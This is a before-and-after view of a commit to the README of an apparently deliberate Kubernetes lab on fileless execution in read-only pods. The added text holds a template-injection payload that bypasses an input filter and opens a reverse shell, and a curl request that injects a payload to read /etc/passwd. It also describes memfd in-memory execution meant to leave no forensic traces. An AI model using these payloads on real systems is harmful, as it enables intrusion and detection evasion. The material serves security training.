

Before and after one commit to kurtiepie/k8s_in_mem_lab, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 82% size. Drawn GitHub-style; pictures changed too: images/Chatbot.png (added); blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -15,7 +13,7 @@
 
 ## Synopsis
 
-In this tutorial, we'll explore the concept of fileless execution within Kubernetes environments, particularly focusing on pods deployed with read-only root file systems. This technique is crucial for scenarios where traditional file manipulation is restricted, offering an alternative method for executing tasks. Tom was here!
+In this tutorial, we'll explore the concept of fileless execution within Kubernetes environments, particularly focusing on pods deployed with read-only root file systems. This technique is crucial for scenarios where traditional file manipulation is restricted, offering an alternative method for executing tasks.
 
 ## Skills Requried
 - Linux Enumeration
@@ -54,19 +52,23 @@ Content-Length: 1833
 Connection: close
 ```
 <a id="item-one"></a>
-## Step 1: Exploring the Read-Only Web Frontend
-First, we access the web frontend and exploit a SSTI to gain a foot hold on the system. The text box is subject to a basic Template injection.
-We cant test injection for read:
+## Step 1: Exploring the Web Frontend
+First, we access the web frontend and exploit a SSTI to gain a foothold on the system.
 
-```
-a {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /etc/passwd').read() }}
-```
-We see an error when trying to write a file.
-```bash
-touch hi.txt
-touch: cannot touch 'hi.txt': Read-only file system
+![N|Solid](./images/Chatbot.png)
+
+There is a basic filter which does not allow "{{" at the start of the input. We can bypass the filter with this payload:
+```python
+a{{request.application.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i &>/dev/tcp/<IP>/<PORT> <&1"').read()}}
 ```
 
+Alternativly you can use Burp to send a POST request like this:
+```sh
+curl -i -s -k -X $'POST' \
+    -H $'Host: 192.168.64.18:30007' -H $'Content-Length: 153' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://192.168.64.18:30007' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Referer: http://192.168.64.18:30007/get_response' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
+    --data-binary $'conversation=A&user_input=a+%7B%7B+self._TemplateReference__context.cycler.__init__.__globals__.os.popen%28%27cat+%2Fetc%2Fpasswd%27%29.read%28%29+%7D%7D' \
+    $'http://192.168.64.18:30007/get_response'
+```
 ## Step 2: Enumerating our envioment
 
 By checking the environment variables we can deduce that we are in a Kubernetes environment.
@@ -76,6 +78,11 @@ KUBERNETES_PORT_443_TCP_PROTO=tcp
 KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
 ```
 
+We see an error when trying to write a file.
+```bash
+touch hi.txt
+touch: cannot touch 'hi.txt': Read-only file system
+```
 Observations:
 * The environment variables suggest we're on a Kubernetes node.
 * Standard paths are available, but no write access to the filesystem.
@@ -84,7 +91,7 @@ Observations:
 
 ## Step 3: Dealing with Read-Only File System
 
-(https://breakdance.github.io/breakdance/) shows how we can we can utilize tmpfs mounted filesystems for temporary file manipulation. We will be using the memfd syscall to create in memory elf64 binary files. Then execute those files without touching the file system. As we are not leaving any traces or files (IoC) on the file system. We will try to confine our actives in memory when possible.
+(https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions/bypass-fs-protections-read-only-no-exec-distroless#read-only-no-exec-scenario) shows how we can we can utilize tmpfs mounted filesystems for temporary file manipulation. We will be using the memfd syscall to create in memory elf64 binary files. Then execute those files without touching the file system. As we are not leaving any traces or files (IoC) on the file system. We will try to confine our actives in memory when possible.
 
 Check what filesystems are mounted with tmpfs as paths may vary.
 ```sh
````
Also changed, not shown: other parts of README.md (+22 -66 lines).
